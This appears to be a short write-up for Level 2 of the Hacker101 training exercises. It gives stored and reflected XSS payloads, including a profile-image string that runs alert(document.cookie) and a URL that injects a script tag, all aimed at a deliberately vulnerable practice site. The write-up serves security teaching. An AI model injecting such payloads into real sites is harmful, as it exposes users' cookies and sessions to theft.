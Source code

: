 # Level 2: Breaker Profile

```
		In this level, there are 7 vulnerabilities, falling into the following classes:
		Stored XSS
		Reflected XSS
		Unrelated Bonus

		Have fun!
```
    
## Stored XSS:
`.png"</body><script>alert(document.cookie)</script>.png`      
Save this as your profile image to return a broken page with Stored XSS.    
It is called once upon loading profile and twice when editing profile.    
![Stored XSS img](https://github.com/Isopach/Hacker101/blob/master/img/level2_stored_xss_img.png)

---

## Reflected XSS:    
`https://levels-a.hacker101.com/levels/2/?id=%3Cscript%3Ealert(1)%3C/script%3E`      
Append `<script>alert(1)</script>` in the id query for Reflected XSS     
![Reflected XSS](https://github.com/Isopach/Hacker101/blob/master/img/level2_reflected_xss.png)

---

## Unrelated Bonus(?):    
`.png"</body><script>.png`    
Don't close the script tag to hide the entire page. Replace the fields like in Level0.      
But no malicious activity be found from it - is it really a vulnerability?

![Hide Profile](https://github.com/Isopach/Hacker101/blob/master/img/level2_hide_profile.png)
